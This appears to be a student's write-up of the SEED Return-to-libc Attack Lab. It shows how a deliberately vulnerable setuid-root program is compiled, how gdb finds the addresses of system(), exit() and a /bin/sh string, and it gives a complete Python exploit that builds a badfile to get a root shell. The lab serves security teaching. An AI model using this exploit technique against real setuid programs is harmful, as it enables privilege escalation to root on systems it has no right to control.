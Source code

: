 ```yaml
---
title: Return-to-libc Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

Use the default `BUF_SIZE` as 12

```shell
gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

# Task 2

```shell
[02/27/20]seed@VM:~/.../return_to_lic$ touch badfile
[02/27/20]seed@VM:~/.../return_to_lic$ gdb -q retlib
Reading symbols from retlib...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib 
Returned Properly
[Inferior 1 (process 3038) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ quit
```

# Task 3

Write a `envaddr.c`
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

**Keep the name of the executable program with length 6 (=len(`'retlib'`))**

```shell
gcc envaddr.c -o env666
```

The address of `/bin/sh` is `0xbffffdef`.

**Note**: Don't use `gdb` to get the address of string `/bin/sh` in `libc`. Beacause `gbd` will inject something to the stack and heap for debugging, so the address probably become different in runtime.

# Task 4

Find the offset:

```shell
$ gcc -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ gdb -q retlib_dbg
Reading symbols from retlib_dbg...done.
gdb-peda$ b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 19.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib_dbg 
...
Breakpoint 1, bof (badfile=0x804fa88) at retlib.c:19
19	    fread(buffer, sizeof(char), 300, badfile);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffecb8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xbfffeca4
gdb-peda$ p/d 0xbfffecb8 - 0xbfffeca4
$3 = 20
gdb-peda$ quit
```

So, the distance between `%ebp` and `&buffer` inside the function `bof` is 20 bytes

- The range to store the address of `system` is: `content[24:28]`
- The range to store the address of `exit` is: `content[28:32]`
- The range to store the address of `\bin\sh` is: `content[32:36]`

Compose `exploit.py` as follows:

```py
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(40)) #**Note**: it must be modified there. the origin length of     `content` is 300, which may cause `retlib` return directly without launching a root shell. Please change the length to a smaller int.

X = 32
sh_addr = 0xbffffdef      # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

Y = 24
system_addr = 0xb7e42da0  # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

Z = 28
exit_addr = 0xb7e369d0  # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

**Note**: in the line 5, the length of `content` should be set to a smaller number instead of 300 both in the templete and source code offered by the official site. 

Finally I can get

![](root_shell.png)
